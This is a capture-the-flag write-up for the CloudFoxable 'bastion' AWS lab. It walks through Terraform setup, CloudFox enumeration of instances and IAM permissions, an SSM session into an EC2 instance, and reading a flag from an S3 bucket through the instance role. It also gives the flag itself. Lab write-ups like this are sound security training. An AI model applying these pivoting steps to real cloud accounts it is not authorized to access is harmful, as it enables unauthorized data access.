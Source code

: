 ## Solution - Detailed Steps
1. **Enable Bastion Host in Terraform** 
- Edit cloudfoxable/aws/terraform.tfvars

- Switch the challenge flag to true
```
bastion_enabled = true
```

2. **Run Command terraform apply**
   
   By run this command, it throw a error ` Error: "policy" contains an invalid JSON: invalid character '\n' in string literal `. This is because of the ` USER_IP ` variable.
   Then, I config `USER_I` manually and  after then agin run command `terraform apply` after that i got `Apply complete` message and `output`

3. **Install Cloudfox**
   
   For install cloudfox I webt to github link `https://github.com/BishopFox/cloudfox/releases` and download `cloudfox-linux-amd64.zip` after that i use unzip command and move cloudfox to  `/usr/local/bin`
   comand are given below
   ```
   unzip cloudfox-linux-amd64.zip
   sudo mv ~/cloudfox/cloudfox /usr/local/bin
   cloudfox --version
   ```
4. **Find Instance ID**
   
   By running command given below to list out the instances and find the instance ID:
   ```
   cloudfox aws -p cloudfoxable instances -v2
   ```
   After running this command the loot is cached
   
   ```
   [instances][cloudfoxable] Loot written to [/home/vikram/.cloudfox/cloudfox-output/aws/cloudfoxable-135808940242/loot/instances-ec2PrivateIPs.txt]

   [instances][cloudfoxable] Loot written to [/home/vikram/.cloudfox/cloudfox-output/aws/cloudfoxable-135808940242/loot/instances-ec2PublicIPs.txt]

   [instances][cloudfoxable] Loot written to [/home/vikram/.cloudfox/cloudfox-output/aws/cloudfoxable-135808940242/loot/instances-ssmCommands.txt]

   [instances][cloudfoxable] Loot written to [/home/vikram/.cloudfox/cloudfox-output/aws/cloudfoxable-135808940242/loot/instances-ec2InstanceConnectCommands.txt]
   ```

5. **Install Session Manager Plugin and Use the SSM Command**

   I follow the AWS documentation to install the Session Manager plugin by using below given commands
   ```
   curl "https://s3.amazonaws.com/session-manager-downloads/plugin/latest/ubuntu_64bit/session-manager-plugin.deb" -o "session-manager-plugin.deb"
   sudo dpkg -i session-manager-plugin.deb
   ```
   To verify the Session Manager plugin is installed or not I use
   
   ```
   session-manager-plugin
   ```
   It give a this message `The Session Manager plugin is installed successfully. Use the AWS CLI to start a session.` which means plugin installed.
   
   To Connect instance with SSM
   
   ```
   aws ssm start-session --target <instance-id>
   
   ```
   my instance id = i-0d42eb03155132c37

6. **Check Permissions**  
   by run this command to check the instance’s permissions:
   ```
   cloudfox aws -p cloudfoxable permissions --principal [NameOfInstanceRole]
   ```
   NameOfInstanceRole = bastion
   
 
7. **Access the S3 Bucket**
   by the above step identify instance has the necessary permissions to access an S3 bucket.
   List the contents of the S3 bucket:
   ```
   aws s3 ls s3://<bucket-name>
   ```
   
   This is my bucket name with command
   
   ```
   aws s3 ls s3://cloudfoxable-bastion-9hypj
   ```
   
   Then i Found a flag.txt file then i copied that file and found the flag name by using command
   
   ```
   aws s3 cp s3://cloudfoxable-bastion-9hypj/flag.txt -

   ```

   I found the flag that is `{FLAG:bastion::ifYouHaveAccessToAnEC2YouHaveAccessToItsIamPermissions}`
   

